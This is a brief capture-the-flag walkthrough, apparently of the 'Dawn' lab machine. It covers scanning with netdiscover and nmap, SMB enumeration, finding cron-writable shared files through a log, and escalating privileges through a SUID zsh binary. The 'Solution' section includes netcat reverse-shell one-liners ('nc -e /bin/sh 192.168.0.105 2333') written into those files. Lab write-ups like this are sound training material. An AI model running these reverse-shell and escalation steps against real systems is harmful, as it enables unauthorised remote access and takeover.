









### **Netdiscover**

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Enum4linux

When we see smbd service , we use enum4linux scan smbd service config and basic infomation, we not found user but we find a smb share filefolder: <u>*IPC$*</u> , <u>ITDEPT</u> and user: <u>*dawn, ganimedes*</u>

------

### Smbclient

By using smbclient connect , We could found this existed **<u>web-control, product-control</u>**.

------

### Msf dir_scanner

At First, I intend to try a dict by kail linux to do a basic dir scanner, if not successfully , i will try a big dir dict by **gobuster** , luckily, we find /logs is existd.

------

### Solution

When we link to this <u>192.168.0.107/logs/</u>, We can find some file。By reading these files, this management.log is a log file,  we can find target host exists a crontab job chmod 777 product-control, web-control, so that we can reverse shell by these two file with samba share file folder.

`echo 'nc -e /bin/sh 192.168.0.105 2333' > web_product`

`echo 'nc -e /bin/sh 192.168.0.105 2334' > product_product`

wait a little time , then crontab job run.....

we use dawn users, we do some privilege escalate.

`find / -perm -u=s 2>/dev/null`

So we use /usr/bin/zsh to do it.

congratulation... then we go into /root, can see this flag. 

------

OS: Other ways,  i will append in my github if i can find themselves.T_T

------

**That' all , Thanks for your watching**
